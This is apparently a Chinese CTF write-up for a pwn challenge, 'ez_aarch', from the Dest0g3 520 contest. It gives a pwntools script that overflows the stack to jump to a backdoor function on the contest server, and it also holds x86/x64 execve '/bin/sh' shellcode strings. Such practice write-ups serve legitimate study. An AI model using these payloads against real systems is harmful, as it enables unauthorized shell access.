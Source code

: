 ```yaml
---
title: Dest0g3_520迎新赛 Writeup
date: 2022-07-11 17:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=33/
pin: false
published:
---
```


整理了一下，高版本IO入门的一场比赛

## ez_aarch(aarch64)

![image-20220521214823484](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214823484.png)

![image-20220521214918961](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214918961.png)

![image-20220521214932381](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220521214932381.png)

题目有后门函数，直接栈溢出覆盖ret

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='aarch64', os='linux')
context.log_level = 'debug'
p=remote("node4.buuoj.cn","26246")
# p = process("qemu-aarch64 -L /usr/aarch64-linux-gnu/ ./stack".split())
# p = process("qemu-aarch64 -L /usr/aarch64-linux-gnu/ -g 1236 ./stack".split())
elf = ELF("./stack")
# libc = elf.libc

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
system = 0x400000093c

sla("Please leave your name:",'a'*0x28+p64(system))
p.interactive()
```
